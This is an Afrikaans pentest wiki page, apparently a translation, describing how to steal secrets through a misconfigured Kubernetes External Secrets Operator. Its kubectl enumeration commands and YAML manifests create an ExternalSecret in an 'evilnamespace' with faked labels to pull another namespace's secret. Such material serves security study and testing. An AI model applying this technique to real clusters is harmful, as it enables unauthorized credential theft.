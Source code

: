 # External Secret Operator

**Die oorspronklike skrywer van hierdie bladsy is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Hierdie bladsy gee 'n paar wenke oor hoe jy kan slaag om geheime te steel van 'n verkeerd geconfigureerde ESO of toepassing wat ESO gebruik om sy geheime te sinkroniseer.

## Disclaimer

Die tegniek hieronder kan slegs werk wanneer sekere omstandighede nagekom word. Byvoorbeeld, dit hang af van die vereistes wat nodig is om 'n geheim op 'n naamruimte wat jy besit / gecompromitteer het, te laat sinkroniseer. Jy moet dit self uitfigure.

## Prerequisites

1. 'n Voet in 'n kubernetes / openshift-kluster met admin regte op 'n naamruimte
2. Lees toegang op ten minste ExternalSecret op kluster vlak
3. Figurer uit of daar enige vereiste etikette / annotasies of groepslidmaatskap nodig is wat ESO toelaat om jou geheim te sinkroniseer. As jy gelukkig is, kan jy enige gedefinieerde geheim vryelik steel.

### Gathering information about existing ClusterSecretStore

Aneem dat jy 'n gebruiker het wat genoeg regte het om hierdie hulpbron te lees; begin eers deur bestaande _**ClusterSecretStores**_ op te lys.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumerasie

Kom ons neem aan jy het 'n ClusterSecretStore gevind met die naam _**mystore**_. Gaan voort deur sy geassosieerde externalsecret te enumerate.
```sh
kubectl get externalsecret -A | grep mystore
```
_Hierdie hulpbron is naamruimte-geskepte, so tensy jy reeds weet watter naamruimte om te soek, voeg die -A opsie by om oor alle naamruimtes te kyk._

Jy behoort 'n lys van gedefinieerde externalsecret te kry. Kom ons neem aan jy het 'n externalsecret objek genaamd _**mysecret**_ gevind wat gedefinieer en gebruik word deur naamruimte _**mynamespace**_. Versamel 'n bietjie meer inligting oor watter soort geheim dit hou.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Die stukke saamstel

Van hier af kan jy die naam van een of meer geheime name verkry (soos gedefinieer in die Secret hulpbron). Jy sal 'n uitvoer kry wat soortgelyk is aan:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Tot dusver het ons:

- Naam 'n ClusterSecretStore
- Naam van 'n ExternalSecret
- Naam van die geheim

Nou dat ons alles het wat ons nodig het, kan jy 'n ExternalSecret skep (en uiteindelik 'n nuwe Namespace patch/create om te voldoen aan die vereistes wat nodig is om jou nuwe geheim gesinkroniseer te kry):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Na 'n paar minute, as sink toestande nagekom is, behoort jy die gelekte geheim binne jou naamruimte te kan sien.
```sh
kubectl get secret leaked_secret -o yaml
```
## Verwysings

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}

